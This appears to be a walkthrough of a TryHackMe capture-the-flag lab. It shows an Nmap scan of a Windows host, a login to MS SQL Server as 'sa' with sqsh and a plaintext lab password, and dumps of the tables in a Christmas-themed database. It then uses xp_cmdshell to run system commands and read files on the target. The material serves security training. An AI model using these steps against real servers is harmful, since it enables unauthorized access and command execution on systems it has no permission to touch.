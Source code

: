 You decided that the first step would be to check the running services on MACHINE_IP. You resort to yesterday’s tool, Nmap.

Knowing that MACHINE_IP is a MS Windows system, you expect it to not respond to ping probes by default; therefore, you need to add -Pn to your nmap command to perform the scan. This instructs Nmap to skip pinging the target to see if the host is reachable. Without this option, Nmap will assume the target host is offline and not proceed with scanning.

There is an open port related to MS SQL Server accessible over the network. What is the port number?

![image](https://user-images.githubusercontent.com/95479102/145712319-9afced36-7e56-4924-b97e-dfe8217a543a.png)

Knowing the MS SQL Server is running and accessible over the network, we want to check if our username and password are still valid. Using the AttackBox terminal, we will use the command sqsh (pronounced skwish), an interactive database shell.

A simple syntax would be sqsh -S server -U username -P password, where:

    -S server is used to specify the server, for example -S MACHINE_IP
    -U username is used to provide the username; for example, -U sa is the username that we have enabled.
    -P password lets us specify the password.

Let’s try to run, sqsh -S MACHINE_IP -U sa -P t7uLKzddQzVjVFJp

If the connection is successful, you will get a prompt. What is the prompt that you have received?

![image](https://user-images.githubusercontent.com/95479102/145712379-ecb22cfc-c020-4852-bd7b-2de1f6ee22cb.png)

McDatabaseAdmin told us the database name is reindeer and it has three tables:

    names
    presents
    schedule

To display the table names, you could use the following syntax, SELECT * FROM table_name WHERE condition.

    SELECT * is used to return specific columns (attributes). * refers to all the columns.
    FROM table_name to specify the table you want to read from.
    WHERE condition to specify the rows (entities).

In the terminal below, we executed the query, SELECT * FROM reindeer.dbo.names;. This SQL query should dump all the contents of the table names from the database reindeer. Note that the ; indicates the end of the SQL query, while go sends a SQL batch to the database.
Pentester Terminal

           
pentester@TryHackMe$ sqsh -S MACHINE_IP -U sa -P "t7uLKzddQzVjVFJp"
1> SELECT * FROM reindeer.dbo.names;
2> go
 id          first                                    last                                     nickname
 ----------- ---------------------------------------- ---------------------------------------- ----------------------------------------
           1 Dasher                                   Dasher                                   Dasher                                  
           2 Dancer                                   Dancer                                   Dancer                                  
           3 Prancer                                  Prancer                                  Prancer                                 
           4 Vixen                                    Vixen                                    Vixen                                   
           5 Comet                                    Comet                                    Comet                                   
           6 Cupid                                    Cupid                                    Cupid                                   
           7 Donner                                   Donder                                   Dunder                                  
           8 Blitzen                                  Blixem                                   Blitzen                                 
           9 Rudolph                                  Reindeer                                 Red Nosed

 (9 rows affected)

        

We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9?

![image](https://user-images.githubusercontent.com/95479102/145712442-5245fede-d03a-4e7a-9aa5-2372ca62adf3.png)

Check the table schedule. What is the destination of the trip scheduled on December 7?

![image](https://user-images.githubusercontent.com/95479102/145712477-0db9eb70-3f53-4c12-82d5-fa258be80089.png)

![image](https://user-images.githubusercontent.com/95479102/145712489-6bd2bf3a-7d58-4079-8088-6cf7dc6cd3d8.png)

Check the table presents. What is the quantity available for the present “Power Bank”?

![image](https://user-images.githubusercontent.com/95479102/145712514-74268613-2544-4369-8a04-e0c0b2bcef74.png)

You have done fantastic work! You have helped McDatabaseAdmin retrieve the schedule! Now, let’s see if we can run MS Windows commands while interacting with the database. Some MS SQL Servers have xp_cmdshell enabled. If this is the case, we might have access to something similar to a command prompt.

The command syntax is xp_cmdshell 'COMMAND';. Let’s try a simple command, whoami, which shows the user running the commands. In the terminal output below, after connecting to MS SQL Server, we tried xp_cmdshell 'whoami';, and we can see that the user is nt service\mssqlserver. This means that any command we pass to xp_cmdshell will run as nt service\mssqlserver.
Pentester Terminal

           
pentester@TryHackMe$ sqsh -S MACHINE_IP -U sa -P "t7uLKzddQzVjVFJp"
1> xp_cmdshell 'whoami';
2> go

	output

[...]

	nt service\mssqlserver
    
	NULL
    
(2 rows affected, return status = 0)

        

We can run other commands that we can execute on the MS Windows command line. For example, we can use dir to list files and directories and type filename to display the contents of a file. Consider the example in the terminal window below where we reveal the contents of the text file WindowsUpdate.log.
Pentester Terminal

           
pentester@TryHackMe$ sqsh -S MACHINE_IP -U sa -P "t7uLKzddQzVjVFJp"
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> xp_cmdshell 'type c:\windows\WindowsUpdate.log';
2> go

	output
	
[...]
        
        Windows Update logs are now generated using ETW (Event Tracing for Windows).
	Please run the Get-WindowsUpdateLog PowerShell command to convert ETW traces into a readable WindowsUpdate.log.

	NULL
	
	NULL
	
	For more information, please visit https://go.microsoft.com/fwlink/?LinkId=518345 
(5 rows affected, return status = 0)
1>

        

There is a flag hidden in the grinch user's home directory. What are its contents?

![image](https://user-images.githubusercontent.com/95479102/145712775-1557d878-b3bc-4cb1-a986-34a15ea6e078.png)

![image](https://user-images.githubusercontent.com/95479102/145712785-441f9f95-0c82-4986-8f73-c2e36abfec3c.png)

Congratulations, the flag you have recovered contains the password of McDatabaseAdmin! In this task, we learned how to use sqsh to interact with a MS SQL Server. We learned that if xp_cmdshell is enabled, we can execute system commands and read the output using sqsh
